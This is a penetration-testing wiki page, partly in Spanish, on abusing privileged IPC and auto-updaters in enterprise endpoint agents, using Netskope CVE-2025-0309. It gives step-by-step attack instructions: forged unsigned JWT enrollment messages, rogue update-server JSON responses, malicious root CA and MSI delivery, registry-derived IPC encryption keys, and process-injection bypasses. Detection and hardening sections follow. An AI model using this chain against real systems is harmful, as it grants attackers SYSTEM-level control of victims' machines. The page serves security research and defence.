 # Abuso de actualizadores automáticos empresariales e IPC privilegiado (p. ej., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Esta página generaliza una clase de cadenas de escalada de privilegios local de Windows encontradas en agentes endpoint empresariales y actualizadores que exponen una superficie IPC de baja fricción y un flujo de actualización privilegiado. Un ejemplo representativo es Netskope Client for Windows < R129 (CVE-2025-0309), donde un usuario con pocos privilegios puede forzar la inscripción en un servidor controlado por el atacante y luego entregar un MSI malicioso que el servicio SYSTEM instala.

Ideas clave que puedes reutilizar contra productos similares:
- Abusar del IPC localhost de un servicio privilegiado para forzar la reinscripción o la reconfiguración hacia un servidor atacante.
- Implementar los endpoints de actualización del proveedor, entregar una Trusted Root CA maliciosa y apuntar el updater a un paquete malicioso “firmado”.
- Evadir verificaciones de firmante débiles (CN allow‑lists), flags de digest opcionales y propiedades MSI laxas.
- Si el IPC está “cifrado”, derivar la key/IV de identificadores de máquina legibles por el mundo almacenados en el registry.
- Si el servicio restringe a los llamantes por image path/process name, inyectar en un proceso allow‑listed o lanzar uno en suspended y bootstrapear tu DLL vía un parche mínimo del thread‑context.

---
## 1) Forzar la inscripción en un servidor atacante vía IPC localhost

Muchos agentes incluyen un proceso UI en user‑mode que se comunica con un servicio SYSTEM sobre localhost TCP usando JSON.

Observado en Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Flujo del exploit:
1) Crear un token JWT de inscripción cuyas claims controlen el host backend (p. ej., AddonUrl). Usar alg=None de modo que no se requiera firma.
2) Enviar el mensaje IPC invocando el comando de provisioning con tu JWT y el nombre del tenant:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) El servicio comienza a realizar peticiones a tu servidor rogue para enrollment/config, p. ej.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notas:
- Si la verificación del llamante se basa en ruta/nombre, origina la petición desde un binario de proveedor en la lista de permitidos (ver §4).

---
## 2) Hijacking el canal de actualización para ejecutar código como SYSTEM

Una vez que el cliente se comunica con tu servidor, implementa los endpoints esperados y redirígelo a un MSI del atacante. Secuencia típica:

1) /v2/config/org/clientconfig → Devuelve una configuración JSON con un intervalo del actualizador muy corto, p. ej.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Devuelve un certificado CA en formato PEM. El servicio lo instala en el almacén Trusted Root del equipo local.
3) /v2/checkupdate → Proporciona metadatos que apuntan a un MSI malicioso y a una versión falsa.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: el servicio puede comprobar únicamente que el Subject CN sea “netSkope Inc” o “Netskope, Inc.”. Tu CA maliciosa puede emitir un certificado leaf con ese CN y firmar el MSI.
- CERT_DIGEST property: incluye una propiedad MSI benigna llamada CERT_DIGEST. No hay aplicación durante la instalación.
- Optional digest enforcement: una bandera de configuración (p. ej., check_msi_digest=false) desactiva la validación criptográfica adicional.

Result: the SYSTEM service installs your MSI from
C:\ProgramData\Netskope\stAgent\data\*.msi
executing arbitrary code as NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope wrapped IPC JSON in an encryptData field that looks like Base64. Reversing showed AES with key/IV derived from registry values readable by any user:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Attackers can reproduce encryption and send valid encrypted commands from a standard user. General tip: if an agent suddenly “encrypts” its IPC, look for device IDs, product GUIDs, install IDs under HKLM as material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Some services try to authenticate the peer by resolving the TCP connection’s PID and comparing the image path/name against allow‑listed vendor binaries located under Program Files (e.g., stagentui.exe, bwansvc.exe, epdlp.exe).

Two practical bypasses:
- DLL injection into an allow‑listed process (e.g., nsdiag.exe) and proxy IPC from inside it.
- Spawn an allow‑listed binary suspended and bootstrap your proxy DLL without CreateRemoteThread (see §5) to satisfy driver‑enforced tamper rules.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Products often ship a minifilter/OB callbacks driver (e.g., Stadrv) to strip dangerous rights from handles to protected processes:
- Process: removes PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: restricts to THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

A reliable user‑mode loader that respects these constraints:
1) CreateProcess of a vendor binary with CREATE_SUSPENDED.
2) Obtain handles you’re still allowed to: PROCESS_VM_WRITE | PROCESS_VM_OPERATION on the process, and a thread handle with THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (or just THREAD_RESUME if you patch code at a known RIP).
3) Overwrite ntdll!NtContinue (or other early, guaranteed‑mapped thunk) with a tiny stub that calls LoadLibraryW on your DLL path, then jumps back.
4) ResumeThread to trigger your stub in‑process, loading your DLL.

Because you never used PROCESS_CREATE_THREAD or PROCESS_SUSPEND_RESUME on an already‑protected process (you created it), the driver’s policy is satisfied.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automatiza una CA maliciosa, la firma de MSI maliciosos, y sirve los endpoints necesarios: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope es un cliente IPC personalizado que construye mensajes IPC arbitrarios (opcionalmente AES‑cifrados) e incluye la inyección en proceso suspendido para originar desde un binario en la lista blanca.

---
## 7) Detection opportunities (blue team)
- Monitor additions to Local Machine Trusted Root. Sysmon + registry‑mod eventing (see SpecterOps guidance) works well.
- Flag MSI executions initiated by the agent’s service from paths like C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Review agent logs for unexpected enrollment hosts/tenants, e.g.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – look for addonUrl / tenant anomalies and provisioning msg 148.
- Alert on localhost IPC clients that are not the expected signed binaries, or that originate from unusual child process trees.

---
## Hardening tips for vendors
- Bind enrollment/update hosts to a strict allow‑list; reject untrusted domains in clientcode.
- Authenticate IPC peers with OS primitives (ALPC security, named‑pipe SIDs) instead of image path/name checks.
- Keep secret material out of world‑readable HKLM; if IPC must be encrypted, derive keys from protected secrets or negotiate over authenticated channels.
- Treat the updater as a supply‑chain surface: require a full chain to a trusted CA you control, verify package signatures against pinned keys, and fail closed if validation is disabled in config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
